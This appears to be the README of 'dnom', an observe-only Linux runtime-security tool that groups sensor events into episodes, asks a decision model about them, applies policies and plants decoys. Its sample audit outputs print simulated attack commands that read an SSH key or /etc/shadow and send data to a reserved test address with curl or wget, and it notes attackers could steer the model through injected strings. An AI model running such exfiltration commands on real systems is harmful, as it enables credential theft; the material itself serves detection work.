

<h1 align="center">dnom</h1>

<p align="center">
  <b>A judgment layer for Linux runtime security.</b><br>
  Your sensor reports what happened. dnom decides whether it matters.
</p>

<p align="center">
  
  
  
  
</p>

<p align="center">
  <a href="#see-it-work">See it work</a> ·
  <a href="#how-it-works">How it works</a> ·
  <a href="#quick-start">Quick start</a> ·
  <a href="#policies">Policies</a> ·
  <a href="#decoys">Decoys</a> ·
  <a href="#falco-and-kubernetes">Falco and Kubernetes</a> ·
  <a href="#limits">Limits</a>
</p>

---

Runtime sensors such as [Falco](https://falco.org) see every program start, file open and
network connection. What they can't do is judge a whole story: *a script read an SSH key,
encoded it, and then connected to an address this machine has never used.* Each step is
ordinary. Together they are not.

dnom sits between a sensor and a person:

1. **It groups events into episodes.** An episode is everything one process tree did.
2. **It asks a decision model typed questions** about each episode that looks interesting,
   for example "does this activity collect credentials?", and gets probabilities back.
3. **It applies your policies**: rules over the model's answers and over plain facts that
   need no model at all.
4. **It plants decoys**: files and addresses nothing should touch, so a touch is close to
   certain evidence.
5. **It keeps an audit trail** you can read, and can send alerts to a webhook.

> [!IMPORTANT]
> dnom is a **proof of concept** and is **observe-only**. It never blocks, kills or changes
> anything: policies report what they *would* do (`WOULD: kill_tree`). Don't rely on it as
> your only protection.

## See it work

This is `dnom audit` for a harmless simulation that reads a fake SSH key, tries to send it
to a reserved test address, and writes a fake startup unit (all inside `/tmp`):

```text
ep-4100003-fdac6  THREAT · 4 rules matched (dry run)
  when      2026-11-08 17:32:55 → 17:32:57 (2 s)
  where     this machine (not in a container)
  user      uid 1000, started by bash
  driver    human (bash in foot)
  command   bash ./scripts/fake-exfil.sh

Rules matched
  credentials-then-new-destination  WOULD: alert   files.credentials=1 net.new=1
  credential-theft                  WOULD: alert, kill_tree, block_net   credential_access=0.98 exfiltration=0.96 fits_baseline=0.05
  exfiltration                      WOULD: alert, block_net   exfiltration=0.96 fits_baseline=0.05
  persistence                       WOULD: alert   fits_baseline=0.05 persistence=0.87

What happened
  17:32:55  /usr/bin/env bash ./scripts/fake-exfil.sh  pid 4100003
  17:32:55  ├─ mktemp -d /tmp/dnom-test.XXXXXX  pid 4100004
  17:32:55  ├─ cat /tmp/dnom-test.Ab12Cd/.ssh/id_ed25519  pid 4100005
  17:32:55  │     ▸ read /tmp/dnom-test.Ab12Cd/.ssh/id_ed25519  [credentials]
  17:32:55  ├─ base64  pid 4100006
  17:32:55  └─ curl -s --connect-timeout 2 --data-binary @/tmp/dnom-test.Ab12Cd/payload.txt https://203.0.113.7/upload  pid 4100007
  17:32:55        ▸ connect 203.0.113.7:443  [new destination]
  17:32:57     ▸ wrote /tmp/dnom-test.Ab12Cd/.config/systemd/user/updater.service  [persistence]

Model
  jev · jev-1.14.0 · 167 ms
  credential_access  0.98  ██████████
  exfiltration       0.96  ██████████
  fits_baseline      0.05  █░░░░░░░░░
  lateral_movement   0.05  █░░░░░░░░░
  persistence        0.87  █████████░
  response           alert  (confidence 0.32)
```

The first rule matched without the model. The other three used its answers. (Output
shortened by three lines.)

`dnom dash` shows the same trail live, with filters:

<p align="center">
  
</p>

<p align="center"><sub>Sample data: a recorded run of the simulation among made-up everyday episodes.</sub></p>

## How it works

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/architecture-dark.svg">
  
</picture>

| Step | What happens | Where |
|---|---|---|
| **Sense** | Program starts, successful file opens and outbound connection attempts are recorded. Use dnom's own eBPF collector, or Falco with one extra rules file. | `dnom collect` (root) or Falco |
| **Group** | Events become episodes, one per process tree. Files are tagged (`credentials`, `persistence`, `system_binaries`, `temp`), and new programs and new destinations are flagged against a learned baseline. Each episode is labelled with [who drives it](#who-drives-an-episode). | `dnom classify` (no root) |
| **Filter** | Only episodes with a signal are assessed: a sensitive file, a new program, a decoy. On a desktop that is typically 0–1 of a few dozen open episodes per 5 s tick. A daemon reading its own files is not a signal ([routine reads](#routine-reads)). | `dnom classify` |
| **Ask** | Secrets in command lines are masked, then the episode goes to the model with six typed questions. The model is never on the hot path: a slow or offline model delays answers and blocks nothing. | a model backend |
| **Decide** | Policy rules run over the answers and the facts. Matches are reported as `WOULD: <actions>`. | `dnom classify` |
| **Report** | Every assessment is logged. `dnom dash` shows the log live, `dnom audit` prints it, `dnom monitor` follows threats, and a webhook can carry them elsewhere. | log, terminal, webhook |

Two design choices matter most:

- **The root part is tiny.** `dnom collect` only copies kernel records to stdout. Everything
  that parses attacker-controlled strings runs without root.
- **Some rules never ask the model.** An attacker controls the command lines and file names
  the model reads, and could try to talk it out of an alert. Decoys and rules such as
  `credentials-then-new-destination` use only facts, so they hold either way.

### Routine reads

`sshd` reads its host keys and `/etc/shadow` for every connection, and cron reads
`/etc/shadow` for every job. On a server with SSH open to the internet, that was 69 of
the 73 episodes that would have gone to the model in a 2 h 15 min measurement: 53 SSH
connections, 44 of them login attempts by strangers, and 16 cron jobs.

dnom treats these as routine: the read stays in the episode's record, but it is not a
reason to assess the episode. The exemption is narrow:

- It names the program by its full path and the files that belong to it. The same file read
  by anything else is assessed as before.
- It never covers a write, a decoy, or a process in a container.
- It ends when the episode contacts a new destination: credentials followed by a new
  destination is assessed, whoever read them.

Add your own under `routine.reads` in `dnom.yaml`, for example the deploy key that only
`/usr/bin/ssh` should read. `routine: {include_defaults: false}` turns the built-in ones off.

### Who drives an episode

Every episode carries a `driver` label, made from the process tree alone:

| Label | Meaning |
|---|---|
| `agent` | A known AI agent program (`claude`, `codex`, ...) or anything it started |
| `remote` | Started through a remote login service such as `sshd`. Who is at the other end is not visible |
| `human` | Typed in an interactive shell that a terminal started |
| `automation` | Started by a scheduler, a service manager, the desktop itself or pid 1 |
| `unknown` | The parents were not seen |

`agent` and `remote` stick: an agent that opens a terminal keeps its label. `dnom audit`
shows the label in the WHO column, and rules can use it (`driver == "agent"`). It is not
sent to the model.

The label describes and proves nothing: programs are matched by name, and a program can
pick its name. A cron job that an agent wrote runs as `automation`. The name lists are
under `drivers` in `dnom.yaml`.

## Quick start

**You need:** Linux on x86_64, Rust (stable, plus nightly with `rust-src` for the eBPF
build) and `bpf-linker`. Developed on kernels 7.0 (Ubuntu 26.04) and 7.2 (Arch).

```bash
rustup toolchain install nightly --component rust-src
cargo install bpf-linker
git clone https://github.com/iluxav/dnom && cd dnom
make build
```

### 1. Without root or a model (10 seconds)

Classify the bundled recording of the simulation, then read the audit trail:

```bash
make replay-dry
./target/release/dnom audit last --state-dir /tmp/dnom-replay
./target/release/dnom dash --state-dir /tmp/dnom-replay    # the same in the dashboard; q quits
```

### 2. Live on your machine, no model

```bash
make run BACKEND=none     # terminal 1: asks for sudo (eBPF collector)
make dash                 # terminal 2: the live dashboard (or `make monitor`: threats only, as text)
make fake-exfil           # terminal 3: the harmless simulation
```

On its first run dnom learns what is normal for 2 minutes and flags nothing as new, so run
the simulation after that.

Before the first live run, open `dnom.yaml`. It is the author's working config:

- `decoys.auto` is on, so a live run places three decoy files in your home (`~/.ssh`,
  `~/.aws`, a `.env`) and removes them when it stops. Set them to `false` to skip that.
- `ignore`, `boundaries` and `decoys.paths` name programs and paths from the author's
  desktop. Adjust or empty them.

### 3. With a model

Copy `.env.example` to `.env`, add a key for the backend you use, and run:

```bash
make jev-check            # checks the key; sends no episode data
make run                  # default backend: jev
```

> [!NOTE]
> With a hosted backend, each assessed episode leaves your machine: process names, masked
> command lines, the paths of sensitive files, and destination addresses. File contents are
> never read or sent. `make run ONLY=<text>` limits it to matching commands, and a
> self-hosted backend (`BACKEND=kev`, `BACKEND=local`) keeps everything local.

### 4. In the background, for a day or more

```bash
make local-start          # asks for your password once
make local-status         # alive? memory, CPU, episodes assessed
make local-dash           # the live dashboard on this run
make local-report         # every episode a rule matched
make local-stop
```

One systemd unit, capped at 1 GB of memory and half a CPU core. It runs a copy of the binary
and of `dnom.yaml` taken at start, keeps its own audit trail in `~/.local/state/dnom/trial/`,
and does not come back after a reboot.

### 5. A server: the sensor there, the judgment here

```bash
make remote-install HOST=<ssh alias>   # root, or a user with passwordless sudo
make remote-status  HOST=<ssh alias>
make remote-pull    HOST=<ssh alias>   # copy the events here and classify them
make remote-remove  HOST=<ssh alias>   # stop it and delete everything there
```

Only the collector runs on the server, as a service capped at 128 MB of memory and a quarter
of a CPU core. Classification, the config, the model key and the audit trail stay on your
machine. On a small web server the collector used about 40 MB and wrote about 300 MB of
events a day (one file per day, 7 days kept, 2 GB at most).

> [!NOTE]
> The event files on the server hold command lines as they were typed; masking happens at
> classification. They are readable by root only. Treat them as sensitive.

`make` lists every command.

## Policies

Rules live in `dnom.yaml` and use dnom's own small language, independent of any sensor:

```yaml
policies:
  dry_run: true
  protected: [sshd, systemd, dnom, falco]   # these would never get more than an alert
  rules:
    # Facts only: no model needed.
    - name: credentials-then-new-destination
      when: files.credentials > 0 and net.new > 0
      actions: [alert]

    # Model answers, guarded by "is this normal here?"
    - name: credential-theft
      when: credential_access >= 0.85 and exfiltration >= 0.6 and fits_baseline < 0.3
      actions: [alert, kill_tree, block_net]

    # Your own, for example scoped to one Kubernetes namespace.
    - name: prod-credentials
      when: k8s.namespace == "prod" and files.credentials > 0
      actions: [alert]
```

| You can use | Examples |
|---|---|
| Model answers | `exfiltration >= 0.8`, `response == "contain"`, `response.alert > 0.5` |
| File counts by category | `files.credentials`, `files.persistence`, `files.system_binaries`, `files.temp`, `files.decoys` |
| Network | `net.new`, `net.total`, `net.decoys` |
| Episode facts | `procs`, `uid`, `"new_exe" in flags`, `driver` (`"agent"`, `"remote"`, `"human"`, `"automation"`, `"unknown"`) |
| Container context (Falco source) | `container.name`, `container.image`, `k8s.pod`, `k8s.namespace` |
| Logic | `and`, `or`, `not`, parentheses, `== != > >= < <=` |

- **Checked at startup.** A typo in a field or option name stops dnom before it runs.
- **Missing means no match.** A rule that needs a model answer the episode doesn't have
  never matches, and `not` can't turn a missing value into a match.
- **Questions are yours too.** The six built-in questions (credential access, persistence,
  exfiltration, lateral movement, fits the baseline, recommended response) can be replaced
  in `dnom.yaml` with yes/no, choice or score questions.

## Decoys

A decoy is something no program has a reason to touch, so any touch is a strong signal
with almost no false alarms. All decoy rules work without a model, and the model is never
told what is a decoy, so its answers stay an independent check.

| Kind | What it is | Rule |
|---|---|---|
| **Generated files** | On a live run dnom plants believable files with random names (a spare SSH key, an AWS credentials backup, a `.env`) and removes them when it stops. | `decoy-touched` |
| **Your own files** | Paths you place and list, for example a fake `db-credentials.txt` baked into a deployment. | `decoy-touched` |
| **Addresses** | An IP or `IP:PORT` that nothing uses. One connection attempt or ping is enough, so a slow scan trips it like a fast one. Nothing has to listen there. | `decoy-contacted` |
| **dnom's own config** | Another program opening `dnom.yaml` or the decoy list is how an intruder would learn what to avoid. | `config-touched` |

```text
ep-2391-b75ed  THREAT · 1 rule matched (dry run)
  command   cat /tmp/dnom-e2e/decoy/backup-credentials.txt

Rules matched
  decoy-touched  WOULD: alert   files.decoys=1

What happened
  22:46:16  bash -c exec cat /tmp/dnom-e2e/decoy/backup-credentials.txt  pid 2391
  22:46:16     ▸ read /tmp/dnom-e2e/decoy/backup-credentials.txt  [DECOY]
```

Generated decoys never overwrite a file, and dnom removes only files it created that are
unchanged. If dnom is killed before it can clean up, the next start removes what was left.

## Dashboard, audit trail and alerts

```bash
dnom dash                  # live dashboard: every assessed episode, one in full, filters
dnom audit                 # recent assessed episodes, as text
dnom audit --threats       # only those a rule matched
dnom audit last            # one episode in full: rules, process tree, steps, model answers
dnom monitor               # follow live, print only threats
```

All four read the audit trail (`assessments.jsonl`) and nothing else, so they need neither
root nor a model, and they work on a trail copied from another machine
(`--state-dir <folder>`).

### The dashboard

The picture under [See it work](#see-it-work) shows it: the episodes on the left, the selected
one in full on the right, the filters above.

The list follows the log. The selection stays on the newest episode until you move away from
it; `g` goes back to the newest. Red marks an episode a rule matched, a turning mark one
whose processes still run on this machine.

| Key | Filter |
|---|---|
| `f` | only episodes a rule matched |
| `1` … `5` | who drives the episode: agent, remote, human, automation, unknown (several can be on) |
| `t` | time window: 15 minutes, an hour, 24 hours |
| `/` | words that must all appear: in a command, a path, an address, a rule name |
| `w` | where: a condition in the [policy language](#policies), such as `driver == "agent" and net.new > 0` |
| `s` | order: newest first, or highest risk first |
| `x` | clear all filters |

`w` runs a rule's condition over what is already recorded, so you can see what a new rule
would have matched before you put it into `dnom.yaml`. `n` and `N` jump between flagged
episodes, `r` shows the stored record as JSON, `?` lists every key. The mouse selects rows,
scrolls and toggles filters; `--no-mouse` leaves it to the terminal.

The dashboard only reads. It looks processes up in `/proc` to mark the running ones, and it
sends them no signal.

**Webhook alerts** are off until you set `notify.url` in `dnom.yaml`. dnom then POSTs one
JSON alert when a rule first matches an episode, and another only if more rules match later.
Replays of recordings send nothing unless you pass `--notify`.

- The token comes from an environment variable, never from the config file.
- Fields are flat (`summary`, `rules`, `actions`, `command`, `pod`, `namespace`, …), plus
  `report` (the `dnom audit` text) and the full `episode`.
- Command lines and file names in an alert come from the reported process. A receiver must
  treat them as untrusted text.

Try it locally with `make notify-listen` and `make notify-test`.

## Falco and Kubernetes

dnom doesn't compete with Falco on sensing. If you already run Falco, keep it:

1. Add [`integrations/falco/dnom-catchall.yaml`](integrations/falco/dnom-catchall.yaml) to
   Falco's rules and enable `json_output`. The rules detect nothing; they make Falco emit
   the raw activity dnom needs.
2. Pipe Falco's output into `dnom classify --source falco`.

`make falco` does both with the official Falco container (needs Docker); nothing is
installed on the host.

With Falco as the source, episodes carry container and Kubernetes context. Each container
is its own episode, and so is each `kubectl exec` or `docker exec` into one:

```text
ep-9547-e6510  THREAT · 2 rules matched (dry run)
  where     pod web · namespace dnom-test · container web · image alpine:3.20
  command   sh -c cat /etc/shadow >/dev/null; wget -q -T 2 -O /dev/null http://203.0.113.7/ || true

Rules matched
  k8s-test-namespace-credentials    WOULD: alert   files.credentials=1 k8s.namespace=dnom-test
  credentials-then-new-destination  WOULD: alert   files.credentials=1 net.new=1
```

Tested on a single-node k3s cluster with Falco running as a DaemonSet. There is no Helm
chart or in-cluster deployment of dnom yet: in the lab, Falco writes its JSON to a file and
dnom classifies it outside the cluster. Findings are in
[`lab/notes/kubernetes.md`](lab/notes/kubernetes.md).

## Model backends

A decision model answers typed questions with probabilities instead of writing text.
Backends are named in `dnom.yaml`; pick one with `--backend <name>` or `make run BACKEND=<name>`.

| Type | Speaks | Providers |
|---|---|---|
| `systemone` | `POST /v1/systemone` | Jev (hosted, the default), Kev and Laya (self-hosted), Liquid d1, Cloudflare Clef |
| `openai` | `POST /v1/decisions` | OpenAI Decisions |
| `ollama` | `POST /api/chat` | any local chat model, one token per question (slow) |
| `none` | nothing | builds episodes and applies model-free rules only |

Measured on the simulation above, 5 runs each on one desktop. Single episodes, not a benchmark:

| Backend | Latency | Rules matched (of 5) |
|---|---|---|
| Jev (hosted) | 130–170 ms | 4–5 |
| Kev-4B (self-hosted, RTX 8000) | 472 ms | 3 |
| Kev-0.8B (self-hosted, RTX 4070 Ti) | 41 ms | 1 |
| qwen3.6:27b through Ollama | 7.5 s | not measured |

Jev, Kev and Ollama have been run live. The other adapters (OpenAI, Laya, Liquid, Clef)
follow each provider's documented request and response shapes and are untested live. API keys are read from the environment or `.env`, never from
`dnom.yaml`.

## Limits

Read these before trusting an alert, or the absence of one.

- **It reacts after the fact.** dnom sees an action when it happens. By the time a rule
  matches (1–6 s), a small secret is already gone. Decoys are the way to learn intent before
  real damage.
- **Root wins.** An attacker with root can stop dnom or read its config. That is true of
  any sensor on the same machine.
- **The model can be steered.** It reads strings the attacker controls. dnom tells the model
  those strings are untrusted data, and keeps model-free rules as a floor, but injection
  cases are not in the test set yet.
- **Masking is best effort.** Secrets with no recognisable shape, and secrets inside
  `sh -c "…"` scripts, can reach the model.
- **False alarms are measured for one day on two machines, no more.**
  - A quiet web server: 1.85 million events, 38 assessed episodes, no rule matched.
  - A developer desktop running AI coding agents: 8.8 million events, 317 assessed episodes,
    10 false alarms. All 10 matched `credentials-then-new-destination`, and one of them also
    matched a model rule. 7 were coding-agent sessions and 3 a desktop usage meter. Most came
    in the first hours, while the baseline was new.
  - Also known: a Kubernetes pod using its service-account token against the API server
    matches the same rule on a fresh node.
- **It sees addresses, not names.** A GitHub token going to GitHub and the same token going
  anywhere else look alike: a credential read, then an address. The normal work of an AI
  agent (read a credential, reach a new place) matches `credentials-then-new-destination`
  for that reason.
- **Detection is measured only on simulations** written for this project, not on real
  intrusions.
- **Routine reads trust a program's path.** The sensor reports the path a program was
  started with. Root, or a process in its own mount namespace, can make another program
  appear under `/usr/sbin/sshd`. Keep `routine.reads` to programs only root can replace.
- **The built-in sensor has gaps:** x86_64 only, the first 8 arguments of a command, no
  `io_uring`, `sendmsg` or inbound connections, no reads under `/proc`. See
  [`lab/notes/event-inventory.md`](lab/notes/event-inventory.md).
- **Not built:** executing actions, kernel-level blocking (BPF LSM), using Falco's own alerts
  as input, per-image baselines.

## Testing

| Command | What it checks |
|---|---|
| `make test` | 102 unit tests |
| `make notify-test` | 6 webhook checks against a local listener (no root) |
| `make vm-e2e` | 45 end-to-end checks in a lab VM: sensors, episodes, policies, decoys, audit, monitor |
| `make vm-k3s` | 20 checks on k3s with Falco as a DaemonSet: pod labels, namespace-scoped rules, decoy addresses |

The lab VM is Ubuntu 26.04 under QEMU/KVM and cannot reach services on the host
(`make vm-setup`, then `make vm-start`). Every test uses harmless simulations: decoy keys
in `/tmp` and reserved documentation addresses (`203.0.113.0/24`, `198.51.100.0/24`), so
nothing real is read or sent.

## Repository layout

```text
dnom/              the CLI: collect, classify, audit, monitor, dash
dnom-ebpf/         the eBPF programs (kernel side)
dnom-common/       types shared by both
dnom.yaml          configuration: paths, decoys, policies, backends, questions
integrations/      Falco catch-all rules
scripts/           the harmless credential-theft simulation
lab/               lab VM, end-to-end and Kubernetes tests, background and remote runs, replay fixtures, notes
docs/              diagrams
```

## License

Licensed under either of MIT or Apache-2.0, at your option. The eBPF programs loaded into
the kernel are dual MIT/GPL.

Built with [aya](https://aya-rs.dev). Works alongside [Falco](https://falco.org).
